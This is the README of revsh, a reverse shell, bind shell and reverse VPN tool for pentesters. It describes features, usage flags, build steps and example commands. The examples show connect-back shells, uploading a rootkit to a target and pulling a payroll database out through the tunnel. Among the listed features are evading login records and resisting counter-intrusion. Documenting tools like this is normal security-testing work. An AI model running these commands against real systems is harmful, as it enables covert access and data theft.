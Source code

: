 # revsh #

_revsh_ is a tool for establishing [reverse shells](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support, reverse [VPNs](https://en.wikipedia.org/wiki/Virtual_private_network) for [advanced pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting), as well as arbitrary data tunneling.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "reverse VPN"?**

_revsh_ is capable of attaching a virtual ethernet card (tun/tap) to both ends of its crypto tunnel. These cards can then be used to forward raw IP packets or ethernet frames. When combined with an Iptables NAT rule, or bridging a real ethernet card, this allows for the operator to receive a fully routable IP address on the target machines network. This, essentially, is a full VPN that has performed a connect-back call to the operator to circumvent in-bound packet filtering and grant the operator full network access.

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. vi)
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.
 * Proxy support: point-to-point, SOCKS 4, SOCKS 4a, and SOCKS 5. Proxys are available in both directions for complete flexibility.
 * TUN / TAP support for forwarding raw IP packets / Ethernet frames.
 * Escape sequence commands to kill non-responsive nodes, or print connection statistics.


_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~75k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	Control:	revsh -c [CONTROL_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	Target:		revsh     [TARGET_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	
	CONTROL_OPTIONS:
	  -c           Run in "command and control" mode.             (Default is target mode.)
	  -a           Enable Anonymous Diffie-Hellman mode.          (Default is Ephemeral Diffie-Hellman.)
	  -d KEYS_DIR  Reference the keys in an alternate directory.  (Default is "~/.revsh/keys/".)
	  -f RC_FILE   Reference an alternate rc file.                (Default is "~/.revsh/rc".)
	  -s SHELL     Invoke SHELL as the remote shell.              (Default is "/bin/bash".)
	  -F LOG_FILE  Log general use and errors to LOG_FILE.        (No default set.)
	
	TARGET_OPTIONS:
	  -t SEC       Set the connection timeout to SEC seconds.     (Default is "3600".)
	  -r SEC1,SEC2 Set the retry time to be SEC1 seconds, or      (Default is "600,1200".)
	               to be random in the range from SEC1 to SEC2.
	
	MUTUAL_OPTIONS:
	  -k           Run in keep-alive mode. Node will neither
	               exit normally, nor seppuku from timeout.
	  -L [LHOST:]LPORT:RHOST:RPORT
	               Static socket forwarding with a local
	               listener at LHOST:LPORT forwarding to
	               RHOST:RPORT.
	  -R [RHOST:]RPORT:LHOST:LPORT
	               Static socket forwarding with a remote
	               listener at RHOST:RPORT forwarding to
	               LHOST:LPORT.
	  -D [LHOST:]LPORT
	               Dynamic socket forwarding with a local
	               listener at LHOST:LPORT.                       (Socks 4, 4a, and 5. TCP connect only.)
	  -B [RHOST:]RPORT
	               Dynamic socket forwarding with a remote
	               listener at LHOST:LPORT.                       (Socks 4, 4a, and 5. TCP connect only.)
	  -x           Disable automatic setup of proxies.            (Defaults: Proxy D2280 and tun/tap devices.)
	  -b           Start in bind shell mode.                      (Default is reverse shell mode.)
	               The -b flag must be invoked on both ends.
	  -n           Non-interactive netcat style data broker.      (Default is interactive w/remote tty.)
	               No tty. Useful for copying files.
	  -v           Verbose. -vv and -vvv increase verbosity.
	  -h           Print this help.
	  -e           Print out some usage examples.
	
	  ADDRESS      The address of the control listener.           (Default is "0.0.0.0".)
	  PORT         The port of the control listener.              (Default is "2200".)


## Installation ##

	sudo apt-get install openssl libssl-dev     # Pre-req for building.
	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	revsh -h

## Compatability Note! ##

~~_revsh_ was developed with OpenSSL 1.0.2. Kali linux now ships with OpenSSL 1.1.0. There are notable changes to the API. Currently _revsh_ will not build with OpenSSL 1.1.0. (See Issue \#10.) This is being worked on, but no timeline set for a fix. I may take the opportunity to move away from OpenSSL entirely. Sorry for the inconvienience.~~

Update! OpenSSL 1.1 works now, but it needs to be built from source for the moment. This is noted, and the Makefile update, in the "devel" branch. 

	git checkout devel
  

## Examples ##

Control host example IP: 192.168.0.42
<br>
Target host example IP:  192.168.0.66

	Interactive example on default port '2200':
		control:	revsh -c
		target:		revsh 192.168.0.42
	
	Interactive example on non-standard port '443':
		control:	revsh -c 192.168.0.42:443
		target:		revsh 192.168.0.42:443
	
	Bindshell example:
		target:		revsh -b
		control:	revsh -c -b 192.168.0.66
	
	Non-interactive file upload example:
		control:	cat ~/bin/rootkit | revsh -c -n
		target:		revsh 192.168.0.42 > ./totally_not_a_rootkit
	
	Non-interactive file download example:
		control:	revsh -c -n >payroll_db.tar
		target:		cat payroll_db.tar | revsh 192.168.0.42
	
	Non-interactive file download example across existing tunnel:
		control:	revsh -c -n 127.0.0.1:2291 >payroll_db.tar
		target:		cat payroll_db.tar | revsh 127.0.0.1:2290

